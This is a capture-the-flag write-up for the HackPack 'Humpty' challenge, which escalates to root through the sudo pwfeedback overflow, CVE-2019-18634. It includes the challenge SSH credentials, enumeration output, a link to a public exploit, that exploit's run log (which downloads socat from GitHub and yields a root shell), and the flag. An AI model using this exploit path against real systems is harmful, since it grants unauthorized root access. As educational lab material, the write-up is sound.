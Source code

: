```yaml
---
title: "HackPack: Humpty"
categories:
  - HackPackCTF
tags:
  - HackPackCTF
---
```


We first need to connect to the machine with ssh:

```
ssh -p 41701 humptydumpty@cha.hackpack.club
Password: covfefe
```

Taking a look around the machine doesn't turn up anything obvious. We'll run linenum.sh to get a better idea of what's on the machine (https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh):

```
./linenum.sh

### SOFTWARE #############################################
[-] Sudo version:
Sudo version 1.8.21p2
```

	That piece of information is interesting, as sudo appears to be outdated. Googling an exploit for this version of sudo brings us to https://www.cybersecurity-help.cz/vdb/SB2020013120. Taking a look through this shows us that an exploit is available, so we'll look for an exploit for CVE-2019-18634, which lands us at https://github.com/Plazmaz/CVE-2019-18634/blob/master/self-contained.sh.

Grabbing the exploit, putting it on the victim machine, and running it returns the root user to us!

```
humptydumpty@12dcf5a6cb5a:~$ bash exploit.sh 
--2020-04-23 16:55:57--  https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.248.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.248.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 375176 (366K) [application/octet-stream]
Saving to: ‘socat’

socat                         100%[==============================================>] 366.38K  --.-KB/s    in 0.07s   

2020-04-23 16:55:57 (4.84 MB/s) - ‘socat’ saved [375176/375176]


We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

Password: 
Sorry, try again.
Sorry, try again.
root@12dcf5a6cb5a:/home/humptydumpty# exit
sudo: 2 incorrect password attempts
Exploiting!
root@12dcf5a6cb5a:/home/humptydumpty# whoami
root
```

We can now grab the flag:

```
root@12dcf5a6cb5a:/home/humptydumpty# cat flag 
flag{7h3_vu1n!_i5?...CVE_2019-18634!}
```

**flag{7h3_vu1n!_i5?...CVE_2019-18634!}**
